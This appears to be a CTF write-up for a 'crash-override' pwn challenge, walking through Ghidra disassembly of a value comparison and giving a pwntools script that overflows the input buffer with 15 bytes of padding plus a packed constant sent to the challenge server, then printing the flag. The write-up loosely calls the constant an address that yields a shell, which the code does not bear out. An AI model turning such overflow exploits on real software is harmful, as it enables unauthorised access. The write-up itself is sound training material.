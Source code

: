 # Classic Buffer-overflow


**The challenge was to overflow the input buffer and pass a compare.**


opening up the binary in ghidra and looking at the functions section
we can see that we have a main function.

Looking at the disassembly for main we first see all 
the local variables being set and then some strings being printed.

![Disassembly](https://github.com/ZeroCooL-555/CTF/blob/master/10an/pwn/crash-override/1.png)

Looking further we get a very interesting disassembly

```asm
0001139a 81 7d f4  CMP  dword ptr [EBP + -0xc]=>local_14,0x6275726e
000113a1 75 07     JNZ  LAB_000113aa
000113a3 e8 c5 fe  CALL access_granted
         ff ff
```

if `local_14` is equal to `0x6275726e`
we will jump to `access_granted` and if not we jump to `LAB_000113aa`
which just throws at us "Not authenticated" and our row number.

![LAB Disassembly](https://github.com/ZeroCooL-555/CTF/blob/master/10an/pwn/crash-override/2.png)


## The attack plan

So with all this information we can start to build out our exploit.

First, we know that we have control over `local_14` so overflowing the buffer by sending in 15 A's then passing in the address given in the disassembly should give us a shell.

```python
#!/usr/bin/python3

from pwn import *

padding = b"A"*15
payload = padding + p32(0x6275726e)

r = remote('0xa.is', 31337)
r.recvuntil('Key: ')
r.sendline(payload)

print(r.recv().decode('Latin-1'))
r.interactive()
```


#### Flag: 10an{r4bb1t_flu5h0t_50m30n3_t4lk_t0_m3}

